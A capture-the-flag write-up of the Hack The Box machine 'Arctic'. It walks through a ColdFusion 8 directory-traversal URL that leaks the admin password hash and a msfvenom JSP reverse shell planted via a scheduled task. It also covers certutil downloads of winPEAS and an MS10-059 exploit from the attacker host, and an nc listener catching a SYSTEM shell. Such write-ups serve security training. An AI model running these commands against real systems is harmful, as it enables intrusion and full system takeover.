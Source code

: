 # recon
- windows server -> from pinging 127 TTL
- 3 open ports
  - 135/tcp   open  msrpc   Microsoft Windows RPC
  - 8500/tcp  open  fmtp?
  - 49154/tcp open  msrpc   Microsoft Windows RPC

let start by checking `http://arctic.htb:8500/` there are 2 dicrectory
```
CFIDE/               dir   03/22/17 08:52 μμ
cfdocs/              dir   03/22/17 08:55 μμ
```
- CFIDE/
```
Application.cfm                                       1151   03/18/08 11:06 πμ
adminapi/                                              dir   03/22/17 08:53 μμ
administrator/                                         dir   03/22/17 08:55 μμ
classes/                                               dir   03/22/17 08:52 μμ
componentutils/                                        dir   03/22/17 08:52 μμ
debug/                                                 dir   03/22/17 08:52 μμ
images/                                                dir   03/22/17 08:52 μμ
install.cfm                                          12077   03/18/08 11:06 πμ
multiservermonitor-access-policy.xml                   278   03/18/08 11:07 πμ
probe.cfm                                            30778   03/18/08 11:06 πμ
scripts/                                               dir   03/22/17 08:52 μμ
wizards/
```
`CFIDE/administrator/` looks juicy! the link lead us to **ColdFusion Administrator Login**. It is a Adobe ColdFusion 8. I tried to poke the login page a bit, seem like the passwrod is encrypt before it is send to the server. 

after some diging I found this two link:
1. https://www.exploit-db.com/exploits/14641
2. https://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/

so let exploit it and grab password by visit this page!!
`CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en` 
```
#Wed Mar 22 20:53:51 EET 2017 rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP \n password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 encrypted=true
```
now use `crackstation` to crack the password -> admin:happyday and log into the admin page. Base on the link 2nd link i mentioned before, we can upload our shell in a **scheduled task** that would download cfexec.cfm to the server's webroot.


let prepare the reverse shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<kali ip> LPORT=6969 -f raw > shell.jsp
```
run python http.server + nc and wait for incoming shell.


so now go to debugging and logging -> scheduled task -> add new task. Follow the figure the and give the similar input as the POC. Now visite /log.jsp to get shell.
```
C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```
- systeminfo
```
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          5/10/2020, 12:30:54 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 111 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 958 MB
Virtual Memory: In Use:    1.089 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11
```

Base on the hotfix. the victim server never been patch before so we can just google about any exploit for `Microsoft Windows Server 2008 R2` or using `winPEAS`

let get winPEAS to the victim server by using `certutil` command
```
certutil -urlcache -f "http://<kali ip>:8888/winPEAS.bat" winPEAS.bat
```
run it
```
"Microsoft Windows Server 2008 R2 Standard " 
[i] Possible exploits (https://github.com/codingo/OSCP-2/blob/master/Windows/WinPrivCheck.bat)
MS11-080 patch is NOT installed! (Vulns: XP/SP3,2K3/SP3-afd.sys)
MS16-032 patch is NOT installed! (Vulns: 2K8/SP1/2,Vista/SP2,7/SP1-secondary logon)
MS11-011 patch is NOT installed! (Vulns: XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP1/2,7/SP0-WmiTraceMessageVa)
MS10-59 patch is NOT installed! (Vulns: 2K8,Vista,7/SP0-Chimichurri)
```
after diggin around I found the expolit for Chimichurri or MS10-059 on [github](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe)
dowload on kali and get it on our victim server.
```
certutil -urlcache -f "http://<kali ip>:8888/MS10-059.exe" ms10059.exe
```
now let exploit it!!
```
C:\Users\tolis\Desktop>certutil -urlcache -f "http://<kali ip>:8888/MS10-059.exe" ms10059.exe
certutil -urlcache -f "http://<kali ip>:8888/MS10-059.exe" ms10059.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\Users\tolis\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is F88F-4EA5

 Directory of C:\Users\tolis\Desktop

05/10/2020  03:15 ��    <DIR>          .
05/10/2020  03:15 ��    <DIR>          ..
05/10/2020  03:17 ��           784.384 ms10059.exe
22/03/2017  10:01 ��                32 user.txt
05/10/2020  03:09 ��            33.057 winPEAS.bat
05/10/2020  03:07 ��           472.064 winPEAS.exe
               4 File(s)      1.289.537 bytes
               2 Dir(s)  33.174.990.848 bytes free

C:\Users\tolis\Desktop>ms10059.exe
ms10059.exe
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR>
C:\Users\tolis\Desktop>ms10059.exe <kali ip> 9696
ms10059.exe <kali ip> 9696
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
C:\Users\tolis\Desktop>
```
on our another terminal that we ran `nc`
```
kali@kali:~/HTB/arctic$ nc -nlvp 9696
listening on [any] 9696 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.11] 49875
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\tolis\Desktop>whoami
whoami
nt authority\system
```
go grab ur flag. GLHF